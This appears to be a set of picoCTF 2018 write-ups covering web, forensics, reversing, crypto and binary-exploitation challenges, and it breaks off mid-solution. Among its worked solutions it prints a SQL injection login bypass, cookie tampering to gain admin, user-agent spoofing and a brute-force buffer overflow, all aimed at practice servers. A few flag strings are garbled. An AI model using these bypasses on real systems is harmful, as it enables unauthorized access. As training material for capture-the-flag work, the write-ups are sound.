 b061 9ac8 f5b1 d832 f4ad a162 56ad 6b1b 4d25 c2e8 e56c d10b c559 19ad dc32 877d d558 ee31 e430 94d4 b673 3a53 6689 8bad 98b3
 4536 f64c 53cf a6e4 d321 50b8 7545 081a 45ef 9727 5775 79b3 a3a4 624d 8afa 83dc 4aed 18f5 f358 ebb6 c573 24d8 5df3 17a7 2d6d
 9364 2a31 18ad dadc 7cfb e1f5 227d e199 dcc7 b4b5 9abf 4883 aced 7ce3 a6ef a5b4 0ba0 5689 8e2f 6a1b 508d 2347 ba7f 7fee debf
 6db5 e442 9a0e 3429 fc88 2584 51d3 3cac 2599 a20a d00d 9e2b 4a4b 3bd6 fc35 3bd2 f934 75d3 c1c2 aa40 79f8 46c0 9b53 e076 9ea6
 f0ef a335 1427 17e4 fb71 cf0c d459 a1f7 68f7 2981 82d1 b8a9 169f 9dee bcc3 a074 c4e3 e700 c6f7 bb67 baef 2d0a ebe4 2036 ffc5
Looking through the text above, I think I have found the password. I am just having trouble with a username.

Oh drats! They are onto us! We could get kicked out soon!

Quick! Print the username to the screen so we can close are backdoor and log into the account directly!

You have to find another way other than echo!
~/executables$ whoami
l33th4x0r
Perfect! One second!

Okay, I think I have got what we are looking for. I just need to to copy the file to a place we can read.
Try copying the file called TopSecret in tmp directory into the passwords folder.
~/executables$ : command not found or invalid
~/executables$ ls
dontLookHere
~/executables$ cp /tmp/TopSecret /passwords
~/executables$ cd ../
../: directory not found or permitted
~/executables$ ls
dontLookHere
~/executables$ cd ..
~/$ cp /tmp/TopSecret passwords
Server shutdown in 10 seconds...
Quick! go read the file before we lose our connection!
~/$ cd passwords
~/passwords$ ls
TopSecret
~/passwords$ cat TopSecret
Major General John M. Schofield's graduation address to the graduating class of 1879 at West Point is as follows: The discipline which makes the soldiers of a free country reliable in battle is not to be gained by harsh or tyrannical treatment.On the contrary, such treatment is far more likely to destroy than to make an army.It is possible to impart instruction and give commands in such a manner and such a tone of voice as to inspire in the soldier no feeling butan intense desire to obey, while the opposite manner and tone of voice cannot fail to excite strong resentment and a desire to disobey.The one mode or other of dealing with subordinates springs from a corresponding spirit in the breast of the commander.He who feels the respect which is due to others, cannot fail to inspire in them respect for himself, while he who feels,and hence manifests disrespect towards others, especially his subordinates, cannot fail to inspire hatred against himself.
picoCTF{CrUsHeD_It_4e355279}

```

**Flag**
```
picoCTF{CrUsHeD_It_4e355279coCTF{CrUsHeD_It_4e355279}}
```

## Web Exploitation 150: Client Side is Still Bad

**Challenge**
I forgot my password again, but this time there doesn't seem to be a reset,
can you help me? http://2018shell1.picoctf.com:53990 (link)

**Solution**

we check the source

```html
<html>
<head>
<title>Super Secure Log In</title>
</head>
<body bgcolor="#000000">
<!-- standard MD5 implementation -->
<script type="text/javascript" src="md5.js"></script>

<script type="text/javascript">
  function verify() {
    checkpass = document.getElementById("pass").value;
    split = 4;
    if (checkpass.substring(split*7, split*8) == '}') {
      if (checkpass.substring(split*6, split*7) == '0594') {
        if (checkpass.substring(split*5, split*6) == 'd_04') {
         if (checkpass.substring(split*4, split*5) == 's_ba') {
          if (checkpass.substring(split*3, split*4) == 'nt_i') {
            if (checkpass.substring(split*2, split*3) == 'clie') {
              if (checkpass.substring(split, split*2) == 'CTF{') {
                if (checkpass.substring(0,split) == 'pico') {
                  alert("You got the flag!")
                  }
                }
              }

            }
          }
        }
      }
    }
    else {
      alert("Incorrect password");
    }
  }
</script>
<div style="position:relative; padding:5px;top:50px; left:38%; width:350px; height:140px; background-color:red">
<div style="text-align:center">
<p>Welcome to the Secure Login Server.</p>
<p>Please enter your credentials to proceed</p>
<form action="index.html" method="post">
<input type="password" id="pass" size="8" />
<br/>
<input type="submit" value="Log in" onclick="verify(); return false;" />
</form>
</div>
</div>
</body>
</html>
```

**Flag**
```
picoCTF{client_is_bad_040594}
```

## Forensics 150: Desrouleaux

**Challenge**
 Our network administrator is having some trouble handling the tickets for all of of our incidents. Can you help him out by answering all the questions? Connect with nc 2018shell1.picoctf.com 40952.

**Solution**
The [incidents.json](./writeupfiles/incidents.json) is a pretty small file surprisingly, everything is accomplished with `jq`:


```
$ nc 2018shell1.picoctf.com 40952
You'll need to consult the file `incidents.json` to answer the following questions.
What is the most common source IP address? If there is more than one IP address that is the most common, you may give any of the most common ones.
99.32.28.173

Correct!

How many unique destination IP addresses were targeted by the source IP address 99.32.28.173?
3

Correct!

What is the average number of unique destination IP addresses that were sent a file with the same hash? Your answer needs to be correct to 2 decimal places.
1.67

Correct!

Great job. You've earned the flag: picoCTF{J4y_s0n_d3rUUUULo_b6cacd6c}
```

**Question2**

```
$ cat incidents.json | jq .tickets[].src_ip -r | sort | uniq -c | sort -n | tail -n 1
$ cat incidents.json | jq '.tickets[] | select(.src_ip == "99.32.28.173")'
$ cat incidents.json | jq -r '.tickets[] | [.file_hash, .dst_ip] | @tsv' | sort
336033417a7364f0        230.124.77.62
336033417a7364f0        231.208.216.227
65a8826931637d74        230.124.77.62
65a8826931637d74        23.245.63.105
811f58a6e15c0643        120.119.119.83
811f58a6e15c0643        215.51.6.131
b03dee2273112d13        107.111.202.130
b03dee2273112d13        230.124.77.62
bbd65e44921b880c        247.145.101.4
dfd6f5d416878f69        231.208.216.227
```

**Answer**

2+2+2+2+1+1 / 6  = 1.67 (6 different hashes, 4 of them got sent to 2 unique IPs, 2 of them just 1, average is 1.67)


**Flag**
```
picoCTF{J4y_s0n_d3rUUUULo_b6cacd6c}
```

## Web Exploitation 150: Logon

**Challenge**

I made a website so now you can log on to! I don't seem to have the admin password. See if you can't get to the flag. http://2018shell1.picoctf.com:57252 (link)

**Solution**

It only checks password for user `admin`. We can log in as any other username, then get 3 cookies:


We change `admin` cookie to `True` and refresh the page to get the flag

**Flag**
```
picoCTF{l0g1ns_ar3nt_r34l_2a968c11}
```


## Forensics 150: Reading between the Eyes

**Challenge**

Stego-Saurus hid a message for you in this image, can you retreive it?


**Solution**

If we extract the LSB of each channel, we see something hidden in the first row of pixels


in textual format:

```
r: 01011110 00110101 00111110 01100011 01011011 01110010 01110110 01111001 01111010 01110010 01100110 0100000000000000000..
g: 10010001 11100010 10010011 00111000 00111001 11110011 00111011 00111011 00110011 11110010 00110011 1110000000000000000..
b: 10000101 11001100 01011100 10010100 10001101 01001001 11011001 10001111 11000001 01001111 11011101 1100000000000000000..
```

hmm, this doesnt look like it encodes ascii ..what now?

Let's think about what we know about the text that is hidden:

```
picoCTF{ : 01110000 01101001 01100011 01101111 01000011 01010100 01000110 01111011
```

Aha! so the three channels are interlaced! the full string becomes:

```
0111000001101001011000110110111101000011010101000100011001111011011100100011001100110100011
0010000110001011011100110011101011111011000100011001100110111011101110011001100110011011011
100101111100110111011010000011001101011111011000100111100100110111001100110111001101111101
```

and translates to our flag

**Flag**
```
picoCTF{r34d1ng_b37w33n_7h3_by73s}
```


## Forensics 150: Recovering from the snap

**Challenge**


There used to be a bunch of [animals](writeupfiles/animals) here, what did Dr. Xernon do to them?


**Solution**

```bash
$ binwalk animals.dd

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
39424         0x9A00          JPEG image data, JFIF standard 1.01
39454         0x9A1E          TIFF image data, big-endian, offset of first image directory: 8
672256        0xA4200         JPEG image data, JFIF standard 1.01
1165824       0x11CA00        JPEG image data, JFIF standard 1.01
1556992       0x17C200        JPEG image data, JFIF standard 1.01
1812992       0x1BAA00        JPEG image data, JFIF standard 1.01
1813022       0x1BAA1E        TIFF image data, big-endian, offset of first image directory: 8
2136576       0x209A00        JPEG image data, JFIF standard 1.01
2136606       0x209A1E        TIFF image data, big-endian, offset of first image directory: 8
2607616       0x27CA00        JPEG image data, JFIF standard 1.01
2607646       0x27CA1E        TIFF image data, big-endian, offset of first image directory: 8
3000832       0x2DCA00        JPEG image data, JFIF standard 1.01
3000862       0x2DCA1E        TIFF image data, big-endian, offset of first image directory: 8

$ binwalk --dd='jpeg:jpg' animals.dd

```

this gave us a bunch of animal images, and one image with the flag:


**Flag**
```
picoCTF{th3_5n4p_happ3n3d}
```

## Forensics 150: admin panel

**Challenge**

We captured some traffic logging into the admin panel, can you find the password?

**Solution**

They've provided a [pcap file](./writeupfiles/data.pcap), there's a POST to
/login which looks obvious. Following the stream as HTTP shows the password
quite clearly.

**Flag**
```
picoCTF{n0ts3cur3_894a6546}
```

## Reversing 150: assembly-0

**Challenge**

What does `asm0(0xd8,0x7a)` return? Submit the flag as a hexadecimal value (starting with `0x`).

NOTE: Your submission for this question will NOT be in the normal flag format. [Source](writeupfiles/intro_asm_rev.S)
located in the directory at `/problems/assembly-0_1_fc43dbf0079fd5aab87236bf3bf4ac63`.

**Solution**

```asm
.intel_syntax noprefix
.bits 32

.global asm0

asm0:
	push	ebp
	mov	ebp,esp
	mov	eax,DWORD PTR [ebp+0x8]
	mov	ebx,DWORD PTR [ebp+0xc]
	mov	eax,ebx
	mov	esp,ebp
	pop	ebp
	ret
```

we can deduce the output manually. `ret` will return the value of `eax`, which was set to the value of `ebx` (`mov eax ebx`), and ebx was set do the second argument we passed to the program (`mov	ebx,DWORD PTR [ebp+0xc]`), which in this case was `0x7a`


**Flag**
```
0x7a
```

## Binary Exploitation 150: buffer overflow 0

**Challenge**

Let's start off simple, can you overflow the right buffer in this [program](writeupfiles/vuln) to get the flag?
You can also find it in `/problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631` on the shell server.

[Source](writeupfiles/vuln.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}
```

**Solution**
I initially compiled the code locally, found that `-fno-stack-protector` was
required to disable stack smashing detection. Found the number of `a`s required
to trigger a segfault, tried on server, nada. It required more As. I copied the
binary off of the server and tried running it and thought I'd start gdb'ing it,
but in the end I figured I'd try the lazy thing first:

```
hxr@pico-2018-shell-1:/problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631$ for i in {a..z}; do ./vuln  aaaaaaaaaaaaaaaaaaaaaaa$i; done;
Segmentation fault
Segmentation fault
Segmentation fault
Segmentation fault
Segmentation fault
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
Thanks! Received: aaaaaaaaaaaaaaaaaaaaaaafSegmentation fault
Segmentation fault
Segmentation fault
Segmentation fault
Segmentation fault
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
Thanks! Received: aaaaaaaaaaaaaaaaaaaaaaalSegmentation fault
Segmentation fault
Segmentation fault
Segmentation fault
Segmentation fault
Segmentation fault
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
Thanks! Received: aaaaaaaaaaaaaaaaaaaaaaasSegmentation fault
Segmentation fault
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
Thanks! Received: aaaaaaaaaaaaaaaaaaaaaaavSegmentation fault
Segmentation fault
Segmentation fault
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
Thanks! Received: aaaaaaaaaaaaaaaaaaaaaaazhxr@pico-2018-shell-1:/problems/buffer-overflow-0_4_ab1efebbee9446039487c64b88d38631$
```

**Flag**
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
```

## Cryptography 150: caesar cipher 1

**Challenge**

This is one of the older ciphers in the books, can you decrypt the message?

```
picoCTF{grpqxdllaliazxbpxozfmebotlvlicmrcoCTF{grpqxdllaliazxbpxozfmebotlvlicmr}}
```

**Solution**

ROT3 gives flag

**Flag**
```
picoCTF{justagoodoldcaesarcipherwoyolfpu}
```

## Cryptography 150: environ

**Challenge**

Sometimes you have to configure environment variables before executing a program. Can you find the flag we've hidden in an environment variable on the shell server?

**Solution**

logging into the shell:

```
hxr@pico-2018-shell-1:~$ env | grep pico
SECRET_FLAG=picoCTF{eNv1r0nM3nT_v4r14Bl3_fL4g_3758492}
```

**Flag**
```
picoCTF{eNv1r0nM3nT_v4r14Bl3_fL4g_3758492}
```

## Cryptography 150: hertz

**Challenge**

Here's another simple cipher for you where we made a bunch of substitutions. Can you decrypt it? Connect with `nc 2018shell1.picoctf.com 43324`.

**Solution**

when we connect to the service, we are greeted with a different text every time:

```
-------------------------------------------------------------------------------
hqbjcizw xoco dw sqgc ayij - wguwzdzgzdqb_hdtxocw_ico_wqykiuyo_mpozzaowkb
-------------------------------------------------------------------------------
"poyy, tcdbho, wq jobqi ibl yghhi ico bqp fgwz aimdys owzizow qa zxo
ugqbiticzow. ugz d picb sqg, da sqg lqbz zoyy mo zxiz zxdw moibw pic,
da sqg wzdyy zcs zq loaobl zxo dbaimdow ibl xqccqcw toctozcizol us zxiz
ibzdhxcdwz-d coiyys uoydoko xo dw ibzdhxcdwz-d pdyy xiko bqzxdbj
mqco zq lq pdzx sqg ibl sqg ico bq yqbjoc ms acdobl, bq yqbjoc ms
'aidzxagy wyiko,' iw sqg hiyy sqgcwoya! ugz xqp lq sqg lq? d woo d
xiko acdjxzobol sqg-wdz lqpb ibl zoyy mo iyy zxo bopw."

dz piw db fgys, 1805, ibl zxo wtoieoc piw zxo poyy-ebqpb ibbi tikyqkbi
whxococ, midl qa xqbqc ibl aikqcdzo qa zxo omtcoww micsi aolqcqkbi.
pdzx zxowo pqclw wxo jcoozol tcdbho kiwdyd egcijdb, i mib qa xdjx
cibe ibl dmtqczibho, pxq piw zxo adcwz zq iccdko iz xoc cohotzdqb. ibbi
tkyqkbi xil xil i hqgjx aqc wqmo lisw. wxo piw, iw wxo widl, wgaaocdbj
acqm yi jcdtto; jcdtto uodbj zxob i bop pqcl db wz. tozocwugcj, gwol
qbys us zxo oydzo.

iyy xoc dbkdzizdqbw pdzxqgz orhotzdqb, pcdzzob db acobhx, ibl loydkocol
us i whicyoz-ydkocdol aqqzmib zxiz mqcbdbj, cib iw aqyyqpw:

"da sqg xiko bqzxdbj uozzoc zq lq, hqgbz (qc tcdbho), ibl da zxo
tcqwtohz qa wtobldbj ib okobdbj pdzx i tqqc dbkiydl dw bqz zqq zoccduyo,
d wxiyy uo kocs hxicmol zq woo sqg zqbdjxz uozpoob 7 ibl 10 ibbozzo
whxococ."

"xoikobw! pxiz i kdcgyobz izzihe!" cotydol zxo tcdbho, bqz db zxo
yoiwz ldwhqbhoczol us zxdw cohotzdqb. xo xil fgwz obzocol, poicdbj ib
omucqdlocol hqgcz gbdaqcm, eboo ucoohxow, ibl wxqow, ibl xil wzicw qb
xdw ucoiwz ibl i wocobo ortcowwdqb qb xdw ayiz aiho. xo wtqeo db zxiz
coadbol acobhx db pxdhx qgc jciblaizxocw bqz qbys wtqeo ugz zxqgjxz, ibl
pdzx zxo jobzyo, tizcqbdndbj dbzqbizdqb bizgciy zq i mib qa dmtqczibho
pxq xil jcqpb qyl db wqhdozs ibl iz hqgcz. xo pobz gt zq ibbi tkyqkbi,
edwwol xoc xibl, tcowobzdbj zq xoc xdw uiyl, whobzol, ibl wxdbdbj xoil,
ibl hqmtyihobzys woizol xdmwoya qb zxo wqai.

"adcwz qa iyy, loic acdobl, zoyy mo xqp sqg ico. woz sqgc acdobl'w
mdbl iz cowz," widl xo pdzxqgz iyzocdbj xdw zqbo, uoboizx zxo
tqydzoboww ibl iaaohzol wsmtizxs qa pxdhx dbldaaocobho ibl okob dcqbs
hqgyl uo ldwhocbol.
```

another example:

```
-------------------------------------------------------------------------------
ntwjhzpu xchc su etmh qrzj - umbupspmpstw_nsdxchu_zhc_utrkzbrc_aocppqcukw
-------------------------------------------------------------------------------
nzrr ac suxazcr. utac eczhu zjt-wckch aswy xto rtwj dhcnsucre-xzkswj rspprc th wt atwce sw ae dmhuc, zwy wtpxswj dzhpsnmrzh pt swpchcup ac tw uxthc, s pxtmjxp s otmry uzsr zbtmp z rspprc zwy ucc pxc ozpche dzhp
tq pxc othry. sp su z oze s xzkc tq yhskswj tqq pxc udrccw zwy hcjmrzpswj pxc nshnmrzpstw. oxcwckch s qswy aeucrq jhtoswj jhsa zbtmp pxc atmpx; oxcwckch sp su z yzad, yhsffre wtkcabch sw ae utmr; oxcwckch s qswy aeucrq swktrmwpzhsre dzmuswj bcqthc ntqqsw ozhcxtmucu, zwy bhswjswj md pxc hczh tq ckche qmwchzr s accp; zwy cudcnszrre oxcwckch ae xedtu jcp umnx zw mddch xzwy tq ac, pxzp sp hcvmshcu z uphtwj athzr dhswnsdrc
pt dhckcwp ac qhta ycrsbchzpcre upcddswj swpt pxc uphccp, zwy acpxtysnzrre gwtngswj dctdrc'u xzpu tqq-pxcw, s znntmwp sp xsjx psac pt jcp pt ucz zu uttw zu s nzw. pxsu su ae umbupspmpc qth dsuptr zwy bzrr. ospx
z dxsrtutdxsnzr qrtmhsux nzpt pxhtou xsaucrq mdtw xsu uothy; s vmscpre pzgc pt pxc uxsd. pxchc su wtpxswj umhdhsuswj sw pxsu. sq pxce bmp gwco sp, zratup zrr acw sw pxcsh ycjhcc, utac psac th tpxch, nxchsux kche wczhre pxc uzac qccrswju ptozhyu pxc tnczw ospx ac.

pxchc wto su etmh swumrzh nspe tq pxc azwxzpptcu, bcrpcy htmwy be oxzhkcu zu swyszw surcu be nthzr hccqu-ntaachnc umhhtmwyu sp ospx xch umhq. hsjxp zwy rcqp, pxc uphccpu pzgc etm ozpchozhy. spu ciphcac ytowptow
su pxc bzppche, oxchc pxzp wtbrc atrc su ozuxcy be ozkcu, zwy nttrcy be bhccfcu, oxsnx z qco xtmhu dhckstmu ochc tmp tq usjxp tq rzwy. rttg zp pxc nhtoyu tq ozpch-jzfchu pxchc.

nshnmazabmrzpc pxc nspe tq z yhczae uzbbzpx zqpchwttw. jt qhta nthrczhu xttg pt ntcwpscu ursd, zwy qhta pxcwnc, be oxspcxzrr, wthpxozhy. oxzp yt etm ucc?-dtupcy rsgc usrcwp ucwpswcru zrr zhtmwy pxc ptow, upzwy pxtmuzwyu mdtw pxtmuzwyu tq athpzr acw qsicy sw tnczw hckchscu. utac rczwswj zjzswup pxc udsrcu; utac uczpcy mdtw pxc dsch-xczyu; utac rttgswj tkch pxc bmrozhgu tq uxsdu qhta nxswz; utac xsjx zrtqp sw pxc hsjjswj, zu sq uphskswj pt jcp z upsrr bcppch uczozhy dccd. bmp pxcuc zhc zrr rzwyuacw; tq occg yzeu dcwp md sw rzpx zwy drzupch-pscy pt ntmwpchu, wzsrcy pt bcwnxcu, nrswnxcy pt ycugu. xto pxcw su pxsu? zhc pxc jhccw qscryu jtwc? oxzp yt pxce xchc?

bmp rttg! xchc ntac athc nhtoyu, dznswj uphzsjxp qth pxc ozpch, zwy uccaswjre btmwy qth z yskc. uphzwjc! wtpxswj osrr ntwpcwp pxca bmp pxc ciphcacup rsasp tq pxc rzwy; rtspchswj mwych pxc uxzye rcc tq etwych ozhcxtmucu osrr wtp umqqsnc. wt. pxce amup jcp lmup zu wsjx pxc ozpch zu pxce dtuusbre nzw ospxtmp qzrrswj sw. zwy pxchc pxce upzwy-asrcu tq pxca-rczjmcu. swrzwychu zrr, pxce ntac qhta rzwcu zwy zrrceu, uphccpu zwy zkcwmcu-wthpx, czup, utmpx, zwy ocup. ecp xchc pxce zrr mwspc. pcrr ac, ytcu pxc azjwcpsn kshpmc tq pxc wccyrcu tq pxc ntadzuucu tq zrr pxtuc uxsdu zpphznp pxca pxspxch?
```

maybe a substitution cipher? we can solve these with https://quipqiup.com/ the flag is in the header of each of the outputs


**Flag**
```
substitution_ciphers_are_solvable_mwettfesvn
```

## Forensics 150: hex editor

**Challenge**

This cat has a secret to teach you.

**Solution**

Flag was appended to end of [the jpeg](./writeupfiles/hex_editor.jpg)

**Flag**
```
picoCTF{and_thats_how_u_edit_hex_kittos_3E03e57d}
```

## General Skills 150: ssh-keyz

**Challenge**
As nice as it is to use our webshell, sometimes its helpful to connect directly to our machine. To do so, please add your own public key to ~/.ssh/authorized_keys, using the webshell. The flag is in the ssh banner which will be displayed when you login remotely with ssh to with your username.

**Solution**
Added a key to ~/.ssh/authorized_keys. Hardest part was finding the ip address with `curl icanhazip.com`

**Flag**
```
picoCTF{who_n33ds_p4ssw0rds_38dj21}
```

## Web Exploitation 200: Irish Name Repo

**Challenge**

There is a website running at http://2018shell1.picoctf.com:28402 (link). Do you think you can log us in? Try to see if you can login!


**Solution**

There is an admin login page vulneral to sql injection

```
username: admin
password: ' or 'x'='x
```

gives us the flag

**Flag**
```
picoCTF{con4n_r3411y_1snt_1r1sh_f58843c5}
```

## Web Exploitation 200: Mr. Robots

**Challenge**
Do you see the same things I see? The glimpses of the flag hidden away? http://2018shell1.picoctf.com:40064 (link)

**Solution**
Checking /robots.txt we see a disallow rule for /30de1.html which includes the flag.

**Flag**
```
picoCTF{th3_w0rld_1s_4_danger0us_pl4c3_3lli0t_30de1}
```

## Web 200: No login

**Challenge**

Looks like someone started making a website but never got around to making a login, but I heard there
was a flag if you were the admin. http://2018shell1.picoctf.com:39670

**Solution**

create a cooke named `admin` and set value to `True` gives the flag

**Flag**
```
picoCTF{n0l0g0n_n0_pr0bl3m_50e16a5c}
```

## Web Exploitation 200: Secret Agent

**Challenge**

Here's a little website that hasn't fully been finished. But I heard google gets all your info anyway. http://2018shell1.picoctf.com:53383

**Solution**

The website contains a big button with the word `Flag` on it. When we click it we get the message `You're not google! Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0`.


Looks like it checks our user agent string to decide whether we get the flag. Changing the user agent string to something custom like `google` is not enough, so we look up the user agent strings used by the Google crawlers [link](https://support.google.com/webmasters/answer/1061943?hl=en)


```python
import requests

headers = {'User-Agent':'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'}
r=requests.get("http://2018shell1.picoctf.com:53383/flag", headers=headers)

print r.text
```

which gives us the web page containing the flag:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <title>My New Website</title>
    <link href="http://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">
    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>
<body>
    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/unimplemented">Sign In</a>
                    </li>
                    <li role="presentation"><a href="/unimplemented">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">My New Website</h3>
        </div>

       <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->

       <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
         <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
         <!-- <strong>Title</strong> --> Googlebot!
           </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{s3cr3t_ag3nt_m4n_134ecd62}</code></p>
            <!-- <p><a class="btn btn-lg btn-success" href="admin" role="button">Click here for the flag!</a> -->
            <!-- </p> -->
        </div>
        <footer class="footer">
            <p>&copy; PicoCTF 2018</p>
        </footer>
    </div>
    <script>
    $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
    });
    </script>
</body>
</html>
```


**Flag**
```
picoCTF{s3cr3t_ag3nt_m4n_134ecd62}
```

## Forensics 200: Truly an Artist

**Challenge**

Can you help us find the flag in this [Meta-Material](./writeupfiles/2018.png)?

**Solution**
```
$ exiftool writeupfiles/2018.png
ExifTool Version Number         : 10.10
File Name                       : 2018.png
Directory                       : writeupfiles
File Size                       : 13 kB
File Modification Date/Time     : 2018:09:29 11:37:17+02:00
File Access Date/Time           : 2018:09:29 11:37:17+02:00
File Inode Change Date/Time     : 2018:09:29 11:37:33+02:00
File Permissions                : rw-rw----
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1200
Image Height                    : 630
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Artist                          : picoCTF{look_in_image_788a182e}
Image Size                      : 1200x630
Megapixels                      : 0.756
```

**Flag**
```
picoCTF{look_in_image_788a182e}
```


## Reversing 200: assembly-1

**Challenge**

What does `asm1(0x76)` return? Submit the flag as a hexadecimal value (starting with `0x`).

NOTE: Your submission for this question will NOT be in the normal flag format.
Source located in the directory at `/problems/assembly-1_0_cfb59ef3b257335ee403035a6e42c2ed`.

[asm1](writeupfiles/eq_asm_rev.S)

**Solution**

```asm
intel_syntax noprefix
.bits 32

.global asm1

asm1:
	push	ebp
	mov	ebp,esp
	cmp	DWORD PTR [ebp+0x8],0x98
	jg 	part_a
	cmp	DWORD PTR [ebp+0x8],0x8
	jne	part_b
	mov	eax,DWORD PTR [ebp+0x8]
	add	eax,0x3
	jmp	part_d
part_a:
	cmp	DWORD PTR [ebp+0x8],0x16
	jne	part_c
	mov	eax,DWORD PTR [ebp+0x8]
	sub	eax,0x3
	jmp	part_d
part_b:
	mov	eax,DWORD PTR [ebp+0x8]
	sub	eax,0x3
	jmp	part_d
	cmp	DWORD PTR [ebp+0x8],0xbc
	jne	part_c
	mov	eax,DWORD PTR [ebp+0x8]
	sub	eax,0x3
	jmp	part_d
part_c:
	mov	eax,DWORD PTR [ebp+0x8]
	add	eax,0x3
part_d:
	pop	ebp
	ret
```

we manually parse this code:

```
asm1:                              ; 1: we start here
	push	ebp
	mov	ebp,esp
	cmp	DWORD PTR [ebp+0x8],0x98   ; 2: we compare our input value (`0x76`) to `0x98`
	jg 	part_a	                   ; 3: not greater than `0x98` so we do not jump
	cmp	DWORD PTR [ebp+0x8],0x8    ; 4: now compare to `0x8`
	jne	part_b                     ; 5: not equal so we jump to part_b
	mov	eax,DWORD PTR [ebp+0x8]
	add	eax,0x3
	jmp	part_d
part_a:
	cmp	DWORD PTR [ebp+0x8],0x16
	jne	part_c
	mov	eax,DWORD PTR [ebp+0x8]
	sub	eax,0x3
	jmp	part_d
part_b:
	mov	eax,DWORD PTR [ebp+0x8]   ; 6: load our input value (`0x76`) to eax
	sub	eax,0x3                   ; 7: subtract 3, eax now contains `0x73`
	jmp	part_d                    ; 8: we jump to part_d
	cmp	DWORD PTR [ebp+0x8],0xbc
	jne	part_c
	mov	eax,DWORD PTR [ebp+0x8]
	sub	eax,0x3
	jmp	part_d
part_c:
	mov	eax,DWORD PTR [ebp+0x8]
	add	eax,0x3
part_d:
	pop	ebp
	ret                          ; 9: return value in eax (`0x73`)
```


**Flag**
```
0x73
```

## Reversing 200: be-quick-or-be-dead-1

**Challenge**

 You find [this](https://www.youtube.com/watch?v=CTt1vk9nM9c) when searching for some music, which leads you to [be-quick-or-be-dead-1](writeupfiles/be-quick-or-be-dead-1). Can you run it fast enough?

You can also find the executable in `/problems/be-quick-or-be-dead-1_3_aeb48854203a88fb1da963f41ae06a1c`.


**Solution**

```
$ ./be-quick-or-be-dead-1
Be Quick Or Be Dead 1
=====================

Calculating key...
You need a faster machine. Bye bye.
```

ok, sounds like we need to speed up the execution of the program. We examine it with objdump and find
this functions that wastes a lot of time:

```asm
0000000000400706 <calculate_key>:
  400706:       55                      push   %rbp
  400707:       48 89 e5                mov    %rsp,%rbp
  40070a:       c7 45 fc 3c 7e d4 6f    movl   $0x6fd47e3c,-0x4(%rbp)
  400711:       83 45 fc 01             addl   $0x1,-0x4(%rbp)
  400715:       81 7d fc 78 fc a8 df    cmpl   $0xdfa8fc78,-0x4(%rbp)
  40071c:       75 f3                   jne    400711 <calculate_key+0xb>
  40071e:       8b 45 fc                mov    -0x4(%rbp),%eax
  400721:       5d                      pop    %rbp
  400722:       c3                      retq
```

This function sets a value of `0x6fd47e3c`, then repeatedly adds 1 to this value until
it becomes equal to `0xdfa8fc78` ..if we edit the intial value to be `0xdfa8fc77` it
will be much faster while still reaching the same final state. We can do this with
a hex editor


we save, and run the program again:

```
$ ./be-quick-or-be-dead-1
Be Quick Or Be Dead 1
=====================

Calculating key...
Done calculating key
Printing flag:
picoCTF{why_bother_doing_unnecessary_computation_27f28e71}
```

**Flag**
```
picoCTF{why_bother_doing_unnecessary_computation_27f28e71}
```


## Cryptography 200: blaise's cipher

**Challenge**

My buddy Blaise told me he learned about this cool cipher invented by a guy also named Blaise! Can you figure out what it says?

Connect with `nc 2018shell1.picoctf.com 46966`


**Solution**

We connect and are greeted by this message:

```
